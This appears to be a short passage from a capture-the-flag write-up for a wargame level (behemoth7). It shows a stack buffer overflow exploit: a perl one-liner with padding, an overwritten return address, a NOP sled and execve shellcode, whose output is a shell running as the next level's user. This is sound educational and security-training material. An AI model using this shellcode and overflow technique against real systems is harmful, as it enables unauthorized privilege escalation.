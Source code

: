I added a 20-byte buffer of **NOPs** between the return address and the shellcode, so I am going to add another 10-bytes onto the calculated return address for a final return address of `0xffffd16a`.

### Exploit:
```bash
behemoth7@behemoth:/behemoth$ ./behemoth7 $(perl -e 'print "A"x528 . "\x6a\xd1\xff\xff" . "\x90"x20 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\
x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
$ whoami
behemoth8
```